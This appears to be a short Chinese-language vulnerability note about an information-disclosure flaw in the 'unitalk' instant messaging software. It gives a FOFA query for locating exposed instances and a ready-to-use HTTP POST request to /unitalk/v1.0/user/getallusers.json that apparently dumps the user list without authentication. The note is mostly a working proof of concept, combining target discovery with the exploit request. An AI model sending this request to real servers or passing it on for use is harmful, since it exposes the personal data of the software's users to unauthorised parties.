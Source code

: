 # unitalk存在敏感信息泄露漏洞

# 一、漏洞简介
unitalk是一款即时通讯软件，unitalk存在敏感信息泄露漏洞

# 二、影响版本
+ unitalk

# 三、资产测绘
+ fofa`title="unitalk"`
+ 特征

![1723520849027-9f8e29d4-1ac6-46e0-b014-eb6ac435cc13.png](./img/5y4QT2B7hlz5Oba0/1723520849027-9f8e29d4-1ac6-46e0-b014-eb6ac435cc13-815430.png)

# 四、漏洞复现
```plain
POST /unitalk/v1.0/user/getallusers.json HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/113.0.0.0 Safari/537.36 Edg/113.0.1774.35
Content-Type: application/json;charset=UTF-8

{}
```

![1723521050837-41476540-13f8-4fdc-80d8-f22c2fe6081a.png](./img/5y4QT2B7hlz5Oba0/1723521050837-41476540-13f8-4fdc-80d8-f22c2fe6081a-283024.png)



> 更新: 2024-09-05 23:21:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xwkb6kvo30rpcip8>